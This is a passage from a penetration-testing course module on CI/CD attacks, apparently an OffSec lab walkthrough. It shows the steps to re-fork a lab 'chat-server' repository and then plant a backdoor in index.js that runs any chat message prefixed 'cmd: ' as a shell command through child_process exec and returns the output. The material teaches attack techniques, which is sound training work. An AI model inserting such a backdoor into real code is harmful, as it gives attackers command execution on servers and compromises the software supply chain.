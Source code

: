 For this exploit, we'll choose the third option. While it might be harder to interact with the shell using scripts, it's not impossible (and out of scope for this Module in any case).

Since we created a pull request already that was merged into the **master** branch, our fork is out of sync with the **master** branch. We could update our fork but it's easier to delete our fork and create a new one that's up-to-date. To delete the fork, we'll navigate to the _Settings_ tab, scroll to the bottom, and click the _Delete This Repository_ button.

![[OffSec/Cloud/Cloud Attacks - CICD Skill Path/z. images/b1411d7a21b17a8bf9f5b6341b51130e_MD5.jpg]]

Figure 21: Delete Fork

This will open a confirmation where we have to type in the repo name (**chat-server**) and click _Delete Repository_.

![[OffSec/Cloud/Cloud Attacks - CICD Skill Path/z. images/7e4b92cb90d295f443d50dda8fc62965_MD5.jpg]]

Figure 22: Delete Fork - Confirmation

Now that the repository is deleted, let's return to the _Adis_Zvekic/chat-server_ repository and create a new fork. We'll **cd** back to the **home** directory, **rm** the existing folder, **git clone** the updated fork, and **cd** into it.

```
kali@kali:~/chat-server$ cd ..

kali@kali:~$ rm -rf chat-server

kali@kali:~$ git clone http://git.offseclab.io/offsec/chat-server.git
Cloning into 'chat-server'...
remote: Enumerating objects: 17, done.
remote: Counting objects: 100% (17/17), done.
remote: Compressing objects: 100% (17/17), done.
remote: Total 17 (delta 4), reused 0 (delta 0), pack-reused 0
Receiving objects: 100% (17/17), 19.29 KiB | 282.00 KiB/s, done.
Resolving deltas: 100% (4/4), done.

kali@kali:~$ cd chat-server
```

> Listing 16 - Removing Old chat-server Repo and Cloning the New One

Next, we need to make the change to **index.js** that will contain our custom execution code. Let's add our new code after line 47. We'll explain this code below.

```
kali@kali:~/chat-server$ nano index.js 

kali@kali:~/chat-server$ cat -n index.js
...
45      socket.on('NEW_MESSAGE', (message, callback) => {
46          const user = getUser(socket.id);
47          if (message.includes("cmd: ")){
48            const { exec } = require('child_process');
49            cmd = message.replace("cmd: ", "")
50            exec(cmd, (error, stdout, stderr) => {
51              if (error) {
52                io.to(user.room).emit('MESSAGE', { user: user.name, text: "ERROR: " + error.message});
53              }else{
54                io.to(user.room).emit('MESSAGE', { user: user.name, text: "OUTPUT: " + stdout});
55              }
56            });
57          }
58          io.to(user.room).emit('MESSAGE', { user: user.name, text: message });
59          //io.to(user.room).emit('ROOM_DATA', { room: user.room, users: getAllUsersInRoom(user.room)});
60
```